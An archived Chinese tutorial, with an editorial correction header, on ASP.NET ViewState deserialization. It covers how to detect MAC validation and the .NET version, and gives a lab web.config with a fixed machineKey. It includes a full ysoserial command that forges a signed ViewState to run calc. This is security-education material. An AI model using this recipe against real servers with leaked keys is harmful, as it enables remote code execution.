









# ASP.NET ViewState反序列化漏洞介绍

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：ASP.NET Web Forms .NET Framework
- 文献类型：ASP.NET ViewState机制与已知密钥实验
- 版本、权限及部署边界：WinServer2019/IIS10/ASP.NET4.7样例，已知machineKey及路径/算法；旧MAC禁用和新版本条件不同
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 应Web框架分类而非桌面；本文为配置/密钥泄露前提的通用技术不是单CVE
2. 仅按<=4.5.1和>=4.5.2划MAC强制边界忽略安全更新/兼容设置回移，需官方依据；所谓.NET4.7.3版本需核实际ASP.NET构建号
3. 发送AAAA得到MAC错误只能作信号，错误隐藏/代理/无ViewState路径会影响判断，不能反向以无错误判MAC禁用
4. ViewState总先加密再MAC的流程过度泛化，加密非所有页面必选；已知密钥还需路径/purpose/UserKey及gadget依赖，不能只列四参数就保证RCE
5. 示例固定公开machineKey、debug/customErrorsOff仅用于隔离实验，不可作为部署安全模板；修改web.config虽不用手动重启仍可能应用回收/会话影响
6. 无微软文档/ysoserial源或固定版本，截图承担结果，服务上下文calc不能仅弹窗证明；HTML标签未转义/单行XML损坏可读性，缺防御/密钥轮换建议

### 操作风险

示例固定公开machineKey、debug/customErrorsOff仅用于隔离实验，不可作为部署安全模板；修改web.config虽不用手动重启仍可能应用回收/会话影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 Ly4j
                    Ly4j  Ly4j攻防手记   2026-01-20 08:40  
  
# 1. ViewState 基础  
## 1.1. web.config 文件  
  
web.config 是 ASP.NET（.NET Framework）应用在 IIS 下的 XML 配置文件，用来定义应用级别的运行时设置、认证授权、请求过滤、错误处理、machineKey、连接字符串等。每个应用/目录都可以有自己的 web.config。  
  
**web.config 的常见配置节**  
  
在 .NET 中，web.config 是一个 XML 配置文件，它的结构由若干“配置节”组成。每个配置节用于定义某一类配置内容，例如安全、身份验证、数据库连接、编译设置等。  
- <system.web>：ASP.NET 运行时相关（编译、ViewState、认证、授权、machineKey、customErrors 等）。  
  
- <system.webServer>：IIS 层面的设置（模块/处理器、requestFiltering、httpErrors、rewrite 等）。  
  
- `<connectionStrings>`：数据库连接串（敏感，应加密或安全存储）。  
  
- `<appSettings>`：轻量配置键值。  
  
- `<location>`：对指定路径单独配置访问权限或覆盖设置。  
  
修改 web.config 不需要重启服务器或 IIS 服务。  
## 1.2. ViewState 介绍  
  
ViewState 是 ASP.NET 用来在客户端和服务器端之间保存页面状态的机制。用于保证页面在回发后仍能保持控件的状态，比如文本框的内容、选中状态。  
  
ViewState 值默认认存储在页面的隐藏字段（<input type="hidden" name="__VIEWSTATE" />）中，编码为 Base64。  
## 1.3. ViewState 开启和关闭的区别  
## ViewStateDemo.aspx  
```
<%@ Page Language="C#" AutoEventWireup="true" %>
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>ViewState Compare Demo</title>
</head>
<body>
    <form runat="server">
        <h3>Label Demo (ViewState Compare)</h3>

        <p>With ViewState: 
            <asp:Label ID="lblWithViewState" runat="server" EnableViewState="true" />
        </p>
        <p>Without ViewState: 
            <asp:Label ID="lblWithoutViewState" runat="server" EnableViewState="false" />
        </p>

        <asp:Button ID="btnSetTime" runat="server" Text="Set Time" OnClick="btnSetTime_Click" />
    </form>

    <script runat="server">
        protected void btnSetTime_Click(object sender, EventArgs e)
        {
            // 只在控件为空时赋值
            if (string.IsNullOrEmpty(lblWithViewState.Text))
            {
                lblWithViewState.Text = "With ViewState: " + DateTime.Now.ToString("HH:mm:ss");
            }

            if (string.IsNullOrEmpty(lblWithoutViewState.Text))
            {
                lblWithoutViewState.Text = "Without ViewState: " + DateTime.Now.ToString("HH:mm:ss");
            }
        }
    </script>
</body>
</html>

```  
  
第一次点击 Set Time，两个 Label 都显示当前时间  
  
  
  
第二次点击 Set Time  
  
  
- With ViewState：第一次赋值已经被 ViewState 保存了，所以显示第一次的时间  
  
- Without ViewState：第一次赋值不被保存，显示最新的时间  
  
## 1.4. machineKey 配置介绍  
  
`<machineKey>` 用于为ASP.NET应用程序提供加密和验证所需的密钥。  
```
<machineKey     validationKey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF"      decryptionKey="E9D2490BD0075B51D1BA5288514514AF"      validation="HMACSHA256"      decryption="AES"  />
```  
- validationKey：用来验证数据完整性，确保数据在传输过程中没有被修改。如生成和验证HMAC（哈希消息认证码）。算法示例 HMACSHA256, HMACSHA512。只有validationKey 时，能验证完整性，但数据可能被读取。  
  
- decryptionKey：用来加解密数据。算法示例 AES, 3DES。只有decryptionKey 时，能加解密数据，但无法防止篡改。  
  
## 1.5. ViewState MAC  
  
ViewState MAC（消息认证码）是一种安全特性，用于验证ViewState的完整性，防止客户端篡改ViewState。与之相关的是 validationKey 。  
- .NET版本 >= 4.5.2 时，强制启用MAC验证，即使将 EnableViewStateMac设置为false，也不能禁止ViewState的校验。  
  
- .NET版本 <= 4.5.1 时，EnableViewStateMac="false" 可完全禁用MAC验证  
  
### 1.5.1. web 判断 MAC 是否被禁用  
  
发送“__VIEWSTATE=AAAA”，当MAC启用时，会看到明确的MAC验证错误信息  
  
  
## 1.6. 通过 web 获取 .net 版本  
  
通过响应头查看的.net 版本不准确，如所有 .NET 4.x 版本都显示 4.0.30319  
  
  
  
实际的版本为 4.7.3，可以在报错页面查看。这个版本影响 MAC 行为。  
  
  
  
但如果是 .NET 2.0/3.0/3.5，报错页面都只显示 ASP.NET 版本:2.0.50727.9031   
# 2. ViewState 的工作机制  
  
ASP.NET ViewState 的生成和验证流程：  
```
序列化数据 → 加密 → 生成MAC签名 → 发送给客户端客户端提交 → 验证MAC签名 → 解密 → 反序列化
```  
  
所以当攻击者拥有如下信息时，可以伪造一个 ViewState 实现反序列化命令执行  
- 正确的加密算法 (decryption="AES")  
  
- 正确的验证算法 (validation="HMACSHA256")  
  
- 加密密钥 (decryptionKey)  
  
- 验证密钥 (validationKey)  
  
# 3. ViewState 反序列化  
## 3.1. ASP.NET 4.5.2 及以上  
  
.NET版本 >= 4.5.2 时，强制启用MAC验证。  
- win2019 iis10  
  
- ASP.NET 4.7  
  
web 根目录下新建 web.config、login.aspx 两个文件  
  
  
  
web.config  
```
<?xml version="1.0" encoding="UTF-8"?>  <configuration>    <system.web>      <compilation debug="true" targetFramework="4.7" /> <!-- 这里的targetFramework应该匹配您的.NET Framework版本 -->      <httpRuntime targetFramework="4.7" /> <!-- 同样，这里的targetFramework应该匹配您的.NET Framework版本 -->      <customErrors mode="Off" />      <machineKey         validationKey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF"        decryptionKey="E9D2490BD0075B51D1BA5288514514AF"        validation="HMACSHA256"        decryption="AES"      />      <!-- 其他system.web配置可以在这里添加 -->    </system.web>    <!-- 其他配置节，如connectionStrings, appSettings, system.webServer等可以在这里添加 -->    <system.webServer>      <!-- IIS配置可以在这里添加 -->    </system.webServer>    <!-- 其他配置节，如runtime, logging等可以在这里添加 -->  </configuration>
```  
  
login.aspx  
```
<script runat="server">
    Sub submit(sender As Object, e As EventArgs)
    lbl1.Text="Hello " & txt1.Text & "!"
    End Sub
    </script>

    <html>
    <body>

    <form runat="server">
    Your name: <asp:TextBox id="txt1" runat="server" />
    <asp:Button OnClick="submit" Text="Submit" runat="server" />
    <p><asp:Label id="lbl1" runat="server" /></p>
    </form>

    </body>
    </html>
```  
  
使用 TextFormattingRunProperties 这个gadget链生成序列化数据，用 AES 算法和密钥加密恶意序列化数据，接着用 HMACSHA256 算法和验证密钥为加密后的恶意数据生成有效的MAC签名。最后生成完整的恶意ViewState字符串 == 加密的数据 + MAC签名 (组合后Base64编码)  
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties  --decryptionalg="AES" --validationalg="HMACSHA256" --decryptionkey="E9D2490BD0075B51D1BA5288514514AF"  --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --path="/login.aspx" --apppath="/" -c "calc" 
```  
  
  
  
点击登陆，然后替换__VIEWSTATE的值为生成的序列化值  
  
  
  
服务端收到 ViewState 字符串后，base64 解码 > MAC 验证成功（攻击者有正确的validationKey）> 数据解密 > 成功（攻击者有正确的decryptionKey） > 反序列化触发漏洞（执行 calc 命令）。  
  
  
# 4. 相关工具  
## 4.1. ViewState Editor  
  
  
## 4.2. Deserialization Scanner  
  
burpsuite 插件  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
